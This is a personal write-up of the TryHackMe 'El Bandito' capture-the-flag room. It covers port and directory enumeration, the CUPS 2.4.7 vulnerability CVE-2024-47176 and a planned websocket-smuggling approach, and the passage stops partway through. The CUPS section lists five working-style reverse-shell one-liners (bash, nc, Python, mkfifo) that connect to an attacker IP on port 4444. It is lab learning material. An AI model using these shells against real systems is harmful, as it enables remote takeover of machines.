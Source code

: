 # Summary
- link: https://tryhackme.com/room/elbandito
- skills required: http request smuggling on websocket and http/2 downgrade H2.CL
- Learning: avoid careless mistake, imoprtant of empties line in GET request

# Write-up to get the flag
### Enumeration
- port finding by nmap: found 22, 80, 631, 8080, followed by checking more details `nmap -sS -sV -O -sC -p22,80,631,8080 10.201.106.167`
  <img width="1231" height="593" alt="image" src="https://github.com/user-attachments/assets/979d48e1-c41f-4f30-bf02-0e4118a0643f" />
- points noted were:
  - port 80
  - port 631 open ipp title CUPS v.2.4.7 in the header W3C DTD HTML 4.01 Transitional.
  - port 8080 open http nginx, with spring jave framework
- Started ffufing immediately for anything interesting.
  <img width="1232" height="902" alt="Screenshot from 2025-10-04 13-12-33" src="https://github.com/user-attachments/assets/3697593c-7b7b-440c-a02f-d47218c443db" />
- started manual enumeration - also checking on all endpoints found from ffufing.
  <img width="1364" height="542" alt="image" src="https://github.com/user-attachments/assets/3bbdc777-0673-4154-bef3-3f945c5d156d" />
- Interesting points noted:
  - http://10.201.9.142:8080/services.html indicated possible exploitation on websocket
  - websocket is not open, and cannot burn amount in http://10.201.9.142:8080/burn.html
  - enumerated additional endpoints found during ffufing under port 8080 were checked.
  - a value '430.764' was found under http://10.201.9.142:8080/token
  - Upon checking, found exploitable CVE of CUPS v2.4.7
  - So it appears to be a clear path to exploit websocket, while the use of CUPS and token were unknown
### CUPS 2.4.7
- After doing some research online, I found CVE-2024-47176 :L more recent critical vulnerabilities have been discovered that affect versions of CUPS older than 2.4.8 and can be chained to allow remote code execution. These flaws allow attackers to execute commands remotely by injecting malicious instructions into print jobs.
- I git clone a vulnerability scanner `$ git clone https://github.com/MalwareTech/CVE-2024-47176-Scanner.git` and found it vulnerable.
  <img width="865" height="344" alt="image" src="https://github.com/user-attachments/assets/5b045acd-fc3f-4a5a-af3b-3b7c9d36a727" />
- It sounds promising so I git clone a script looking for a shortcut `git clone https://github.com/gumerzzzindo/CVE-2024-47176.git`
  <img width="1136" height="307" alt="image" src="https://github.com/user-attachments/assets/b8a500c0-415a-4d46-a925-4c6082649243" />
- Payloads I tried and didn't work were as per below. At the end I gave up and I already spent 1.5 hours up to this point.
  - `bash -c 'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'`
  - `nc -e /bin/sh 10.11.139.184 4444`
  - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.139.184",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'`
  - `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.139.184",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.139.184 4444 >/tmp/f`
### Exploit websocket for the first flag.
- Checking burp on the details on request related to websocket, it was found that the websocket was secure.
- Then I was looking hard for a point of SSRF for injection.
- The thoughts was:
  - find a point to inject SSF to contact own server for status 101 Switching Protocols.
  - Setup own server using python to provide status 101 on all requests.
  - this will create a websocket tunnel to bypass proxy.